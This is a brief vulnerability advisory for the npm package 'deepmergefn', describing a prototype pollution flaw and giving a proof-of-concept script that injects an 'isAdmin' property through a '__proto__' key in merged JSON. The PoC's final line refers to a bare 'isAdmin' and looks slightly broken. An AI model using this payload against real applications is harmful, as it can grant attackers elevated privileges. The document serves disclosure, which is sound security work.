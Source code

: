 # Overview
`deepmergefn` is a NPM package function to deep merge object width diferent atribute.

Affected versions of this package are vulnerable to Prototype Pollution. 
It can be tricked into adding or modifying properties of the Object prototype. These properties will be present on all objects.


# Proof of Concept

```js
// poc.js
const deepMerge = require("deepmergefn");

console.log("Before:", {}.isAdmin);
deepMerge({}, JSON.parse('{ "__proto__" : { "isAdmin" : true } }'));
console.log("After:", isAdmin);
```
